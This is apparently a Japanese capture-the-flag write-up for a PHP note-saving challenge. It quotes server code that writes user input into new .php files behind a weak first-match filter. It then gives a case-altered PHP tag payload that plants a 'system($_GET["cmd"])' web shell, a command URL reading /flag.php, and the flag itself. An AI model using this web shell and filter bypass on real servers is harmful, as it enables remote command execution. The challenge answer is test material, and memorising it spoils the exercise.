

# Writeup

http://147.182.172.217:42002/index.php にアクセスする。



```php
<?php
if(isset($_POST["notewrite"]))
{
    $newnote = $_POST["notewrite"];
    $notetoadd = str_replace_first("<?php", "", $newnote);
    $notetoadd = str_replace_first("?>", "", $notetoadd);
    $notetoadd = str_replace_first("<script>", "", $notetoadd);
    $notetoadd = str_replace_first("</script>", "", $notetoadd);
    $notetoadd = str_replace_first("flag", "", $notetoadd);

    $filename = generateRandomString();
    file_put_contents("$filename.php", $notetoadd);
    header("location:index.php");
}
?>
```

入力した文字列に対して、その内容のphpファイルを作成するようになっている。

phpタグは置換されているので、以下のようにして回避する。

```
<?Php system($_GET["cmd"]); ??>>
```

`cmd`クエリにコマンドを入力し、フラグを探す。

`/flag.php`というファイルがあることが分かったので、中身を表示するとフラグが書かれていた。

```bash
cat /flag.php
```

http://147.182.172.217:42002/JxQ3834lqbJL9Bw.php/?cmd=cat%20/flag.php

<!-- flag{server_side_php_xss_is_less_known_but_considering_almost_80%_of_websites_use_php_it_is_good_to_know_thank_me_later_i_dont_want_to_stop_typing_this_flagg_is_getting_long_but_i_feel_like_we're_developing_a_really_meaningful_connection} -->
